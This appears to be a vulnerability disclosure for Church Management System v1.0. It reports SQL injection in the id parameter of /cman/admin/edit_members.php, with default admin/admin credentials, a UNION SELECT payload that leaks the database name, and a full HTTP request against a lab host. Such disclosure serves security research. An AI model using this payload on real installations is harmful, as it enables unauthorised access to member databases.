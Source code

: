 # Church Management System v1.0 by Godfrey De Blessed has SQL injection

BUG_Author: ZhangZhaoyue

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/11206/church-management-system.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /cman/admin/edit_members.php?id=

Vulnerability location: /cman/admin/edit_members.php?id=, id

dbname = cman

[+] Payload: /cman/admin/edit_members.php?id=-0725873436%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13,14,15--+ // Leak place ---> id

```sql
GET /cman/admin/edit_members.php?id=-0725873436%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13,14,15--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183248796-50614630-30a8-4fb8-97b4-417b49348023.png)
